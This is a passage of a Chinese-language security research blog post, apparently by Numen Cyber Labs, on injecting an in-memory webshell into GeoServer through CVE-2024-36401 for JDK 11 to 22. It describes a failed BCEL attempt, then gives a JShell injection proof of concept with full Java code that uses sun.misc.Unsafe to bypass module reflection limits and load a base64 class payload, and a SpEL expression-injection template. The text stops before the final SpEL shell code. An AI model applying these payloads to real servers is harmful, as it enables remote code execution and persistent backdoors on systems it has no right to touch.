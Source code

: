 #  CVE-2024-36401 JDK 11-22 通杀内存马   
原创 Numen cyber labs  Numen Cyber Labs   2024-07-25 11:55  
  
## 前言  
  
在看到 yzddMr6 师傅的 《[GeoServer property RCE注入内存马](https://mp.weixin.qq.com/s?__biz=Mzg2MTc1NDAxMA==&mid=2247484076&idx=1&sn=4064cb6a006f5cc454b7fb982e8ab9c6&scene=21#wechat_redirect)  
》之后的第一反应是，在 JDK 15 之后不再默认包含 JS 引擎的解析包了，这也就意味着 JDK 15 之后无法按照这个思路去写内存马。这篇文章将展示我当时对这个漏洞的其他内存马利用尝试的过程，最终决定了使用了 SpEL 表达式注入的方式成功注入了内存马，将利用的 JDK 版本提升到了 JDK 22。  
## BCEL 的尝试  
  
在分析的过程中，发现 lib 中存在 BCEL 的 ClassLoader。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vlekRjgqic0exB4eGsmEK5her4xibskb0ZZzVv0gglApnic0dA37ibNHg1JUkJTLpibb96DLfKdOrsJicA9lgKib6XMhg/640?wx_fmt=png&from=appmsg "")  
  
  
但是在调试 BCEL 表达式注入的过程中发现，简单的命令执行的 BCEL 表达式都无法执行。在调试之后发现，BCEL 表达式执行过程中 createClass 一定会报错，导致无法返回 clazz，也就无法加载任意类。本来以为可以简简单单的 BCEL 表达式注入在这里无法做内存马注入。  
## JShell 的尝试  
  
从 Java 9 开始提供了一个叫 JShell 的功能，JShell 是一个 REPL(Read-Eval-Print Loop) 命令行工具，提供了一个交互式命令行界面，在 JShell 中我们不再需要编写类也可以执行Java代码片段。  
  
**JShell 注入代码片段的 PoC**  
```
eval(build(jdk.jshell.JShell.builder()),'YOUR-JAVA-CODE')
```  
  
由于受漏洞影响的版本的 GeoServer 的 JDK 版本是 11 -17，所以这里计划一部到位，随便绕过 JDK 16 开始的反射限制。  
```
eval(build(jdk.jshell.JShell.builder()),' import sun.misc.Unsafe; import java.lang.reflect.Field; import java.lang.reflect.Method; import java.util.Base64; public class UnsafeTest { public static void test() { try { String payload = "Base64-PAYLOAD"; Class&lt;?&gt; unSafe=Class.forName("sun.misc.Unsafe"); Field unSafeField=unSafe.getDeclaredField("theUnsafe"); unSafeField.setAccessible(true); Unsafe unSafeClass= (Unsafe) unSafeField.get(null); Module baseModule=Object.class.getModule(); Class&lt;?&gt; currentClass= UnsafeTest.class; long addr=unSafeClass.objectFieldOffset(Class.class.getDeclaredField("module")); unSafeClass.getAndSetObject(currentClass,addr,baseModule); Class&lt;?&gt; byteArrayClass = Class.forName("[B"); Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byteArrayClass, int.class, int.class); defineClass.setAccessible(true); Class&lt;?&gt; calc= (Class&lt;?&gt;) defineClass.invoke(ClassLoader.getSystemClassLoader(), "attack", Base64.getDecoder().decode(payload), 0, Base64.getDecoder().decode(payload).length); calc.newInstance(); }catch (Exception e){} } } UnsafeTest.test();')
```  
  
然而在后续的测试中发现，在此漏洞中 JShell 无法执行类中的方法或者静态代码块，故也放弃这条内存马注入的思路。  
  
**SpEL 注入内存马**  
###   
### JDK11 - 15  
  
SpEL 的 PoC 很好构造，需要注意的是 payload 中没有 # 和 {}。  
```
toString(getValue(parseRaw(org.springframework.expression.spel.standard.SpelExpressionParser.new(),"YOUR-SPEL-CODE")))
```  
  
